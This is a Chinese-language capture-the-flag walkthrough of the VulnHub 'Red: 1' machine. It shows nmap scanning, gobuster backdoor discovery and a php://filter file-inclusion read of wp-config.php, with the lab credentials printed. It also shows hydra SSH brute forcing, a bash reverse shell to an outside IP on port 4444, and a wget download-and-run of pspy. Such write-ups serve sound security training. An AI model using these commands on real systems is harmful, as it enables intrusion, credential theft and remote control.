url: https://www.vulnhub.com/entry/red-1,753/
title: "Red: 1"
description: "Red: 1, made by hadrian3689. Download & walkthrough links are available."
host: www.vulnhub.com
image: https://www.vulnhub.com/media/img/entry/Red-00.png
# 基础配置
kali 扫描无法扫描出 IP（更改网卡配置）
重启系统的时候按住 shift

- 根据下面的选项按 e 进入

- 按 ctrl+x 重启进入 bash 后找配置文件
vi /etc/network/interfaces // 发现没有 | |
cd etc/netplan/ | |
cat 00-installer-config.yaml // 将网卡名改为ens33 |

# 信息收集
# 扫描存活 IP
// 下面指令都可以 | |
netdiscover -i eth0 | |
arp-scan -l nmap -sn 192.168.0.0/16 |

# 扫描端口
// -Pn : 跳过防火墙扫描 -p- : 扫描全端口 | |
nmap -Pn -p- 192.168.50.135 |

- 访问 IP


发现页面无法显示，更改本机的 hosts 文件

- 查看 hello blue



叫我们找 Mr.Miessler 帮忙，百度一下，发现是一个 seclists 工具
- 发现该系统时 wordpress 搭建的，也就是 php 语言，因为被黑客攻击，可能留着后门，通过 Gobuster 加载 SecLists 字典中的 CommonBackdoors-PHP.fuzz.txt 扫描
<mark style="background: #FF5582A6;">Gobuster</mark> 这款工具局域 Go 程序开发，可以使用该工具来对目录、文件、DNS 和 VHost 等对象进行暴力破解
apt install gobuster | |
dir : 传统目录爆破 | |
dns : DNS子域名爆破 | |
vhost : 虚拟主机爆破模式 |
<mark style="background: #FF5582A6;">SeLists</mark> 是 OWASP 维护的一个安全信息列表集合，该集合包括了用于渗透的各种类型的列表，这些列表包含了 237 个字典文件以及常用的 Web Shell 攻击载荷，字典文件类型众多，包括用户名、密码、域名、敏感数据特征、模糊测试等
apt install seclists |
# 后门爆破
gobuster dir -u http://redrocks.win -w /usr/share/seclists/Discovery/Web-Content/CommonBackdoors-PHP.fuzz.txt |

发现 NetworkFileManagerPHP.php 返回 500，可能需要文件包含
# 漏洞利用
- wfuzz 测试一下包含点
wfuzz -c -u 'http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test' -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt |


- 利用 #php 伪协议 (<mark style="background: #FF5582A6;">php://filter/convert.base64-encode/resource=NetworkFileManagerPHP.php</mark>) 读取文件 NetworkFileManagerPHP.php

- 解码可得
<?php | |
$file = $_GET['key']; | |
if(isset($file)) | |
{ | |
include("$file"); | |
} | |
else | |
{ | |
include("NetworkFileManagerPHP.php"); | |
} | |
/* VGhhdCBwYXNzd29yZCBhbG9uZSB3b24ndCBoZWxwIHlvdSEgSGFzaGNhdCBzYXlzIHJ1bGVzIGFyZSBydWxlcw== */ | |
?> |
文件里面还有一个 base64 编码的注释信息
VGhhdCBwYXNzd29yZCBhbG9uZSB3b24ndCBoZWxwIHlvdSEgSGFzaGNhdCBzYXlzIHJ1bGVzIGFyZSBydWxlcw==
That password alone won't help you! Hashcat says rules are rules
光靠密码是帮不了你的！Hashcat说规则就是规则
- 因为这是 wordpress 搭建的，可以利用该 php 文件读取配置文件获取账号或密码

php://filter/convert.base64-encode/resource=wp-config.php |

解码得
<?php | |
/** | |
* The base configuration for WordPress | |
* | |
* The wp-config.php creation script uses this file during the installation. | |
* You don't have to use the web site, you can copy this file to "wp-config.php" | |
* and fill in the values. | |
* | |
* This file contains the following configurations: | |
* | |
* * MySQL settings | |
* * Secret keys | |
* * Database table prefix | |
* * ABSPATH | |
* | |
* @link https://wordpress.org/support/article/editing-wp-config-php/ | |
* | |
* @package WordPress | |
*/ | |
// ** MySQL settings - You can get this info from your web host ** // | |
/** The name of the database for WordPress */ | |
define( 'DB_NAME', 'wordpress' ); | |
/** MySQL database username */ | |
define( 'DB_USER', 'john' ); | |
/** MySQL database password */ | |
define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' ); | |
/** MySQL hostname */ | |
define( 'DB_HOST', 'localhost' ); | |
/** Database Charset to use in creating database tables. */ | |
define( 'DB_CHARSET', 'utf8' ); | |
/** The Database Collate type. Don't change this if in doubt. */ | |
define( 'DB_COLLATE', '' ); | |
define('FS_METHOD', 'direct'); | |
define('WP_SITEURL', 'http://redrocks.win'); | |
define('WP_HOME', 'http://redrocks.win'); | |
/**#@+ | |
* Authentication unique keys and salts. | |
* | |
* Change these to different unique phrases! You can generate these using | |
* the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}. | |
* | |
* You can change these at any point in time to invalidate all existing cookies. | |
* This will force all users to have to log in again. | |
* | |
* @since 2.6.0 | |
*/ | |
define('AUTH_KEY', '2uuBvc8SO5{>UwQ<^5V5[UHBw%N}-BwWqw|><*HfBwJ( $&%,(Zbg/jwFkRHf~v|'); | |
define('SECURE_AUTH_KEY', 'ah}<I`52GL6C^@~x C9FpMq-)txgOmA<~{R5ktY/@.]dBF?keB3}+Y^u!a54 Xc('); | |
define('LOGGED_IN_KEY', '[a!K}D<7-vB3Y&x_<3e]Wd+J]!o+A:U@QUZ-RU1]tO@/N}b}R@+/$+u*pJ|Z(xu-'); | |
define('NONCE_KEY', ' g4|@~:h,K29D}$FL-f/eujw(VT;8wa7xRWpVR: >},]!Ez.48E:ok 8Ip~5_o+a'); | |
define('AUTH_SALT', 'a;,O<~vbpL+|@W+!Rs1o,T$r9(LwaXI =I7ZW$.Z[+BQ=B6QG7nr+w_bQ6B]5q4c'); | |
define('SECURE_AUTH_SALT', 'GkU:% Lo} 9}w38i:%]=uq&J6Z&RR#v2vsB5a_ +.[us;6mE+|$x*+ D*Ke+:Nt:'); | |
define('LOGGED_IN_SALT', '#`F9&pm_jY}N3y0&8Z]EeL)z,$39,yFc$Nq`jGOMT_aM*`<$9A:9<Kk^L}fX@+iZ'); | |
define('NONCE_SALT', 'hTlFE*6zlZMbqluz)hf:-:x-:l89fC4otci;38|i`7eU1;+k[!0[ZG.oCt2@-y3X'); | |
/**#@-*/ | |
/** | |
* WordPress database table prefix. | |
* | |
* You can have multiple installations in one database if you give each | |
* a unique prefix. Only numbers, letters, and underscores please! | |
*/ | |
$table_prefix = 'wp_'; | |
/** | |
* For developers: WordPress debugging mode. | |
* | |
* Change this to true to enable the display of notices during development. | |
* It is strongly recommended that plugin and theme developers use WP_DEBUG | |
* in their development environments. | |
* | |
* For information on other constants that can be used for debugging, | |
* visit the documentation. | |
* | |
* @link https://wordpress.org/support/article/debugging-in-wordpress/ | |
*/ | |
define( 'WP_DEBUG', false ); | |
/* Add any custom values between this line and the "stop editing" line. */ | |
/* That's all, stop editing! Happy publishing. */ | |
/** Absolute path to the WordPress directory. */ | |
if ( ! defined( 'ABSPATH' ) ) { | |
define( 'ABSPATH', __DIR__ . '/' ); | |
} | |
/** Sets up WordPress vars and included files. */ | |
require_once ABSPATH . 'wp-settings.php'; |
获得了 john 用户 和 R3v_m4lwh3r3_k1nG!! 密码，但是根据上面提示说密码不可用
- ssh 连接（前面扫端口开放了 22）
ssh 账号@IP | |
ssh john@192.168.50.137 |

显然登录失败
# hash 碰撞
登录失败后，联系上面的话，需要规则且是 base64 加密的

利用 hydra 进行爆破
hydra -l john -P pass2 ssh://192.168.50.135 -Vv -f |

john R3v_m4lwh3r3_k1nG!!0
# 权限维持
- 登录 ssh

- 查看当前目录


- cat 命令也有问题（vi 和 cat 的功能互换了）

- 突然被踢下线

- 再次登录发现密码错误

利用已有的信息，在规定的时间内，切换到 ippsec 用户的 shell，然后执行反弹 shell
再次爆破 ssh

- 登录成功后执行下面指令
sudo -u ippsec /usr/bin/time /bin/bash | |
bash -i >& /dev/tcp/192.168.50.136/4444 0>&1 | |
python3 -c 'import pty;pty.spawn("/bin/bash")' |

- 下载 pspy64s 查看进程
可以在本地下载好程序后，利用 web 服务器进行访问
sudo -u ippsec /usr/bin/time /bin/bash | |
cd /dev/shm | |
wget http://192.168.50.1:81/mpy-web/pspy64s | |
chmod +x pspy64s | |
./pspy64s |
